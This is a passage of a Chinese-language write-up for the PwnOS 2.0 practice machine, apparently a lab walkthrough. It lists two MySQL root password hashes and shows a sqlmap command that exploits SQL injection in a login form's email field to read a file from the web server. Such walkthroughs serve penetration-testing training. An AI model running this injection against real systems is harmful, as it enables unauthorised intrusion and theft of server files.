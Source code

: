 ![](/img/game/pwnos2.0/1511849108282.png)

![ ](/img/game/pwnos2.0/1511849128874.png)

root密码为`*248E4800AB95A1E412A83374AD8366B0C0780FFF`和`*9366FE2112E650C8E5523AE337B10A625C727943`

解密密码，没有成功。就继续往下走，使用sqlmap查看web路径下的`info.php`文件成功：

```bash
root@kali:~# sqlmap -u "http://10.10.10.100/login.php" --data="email=admin@test.com&pass=admin&submit=login&submitted=TRUE" -p email --file-read=/var/www/info.php
```

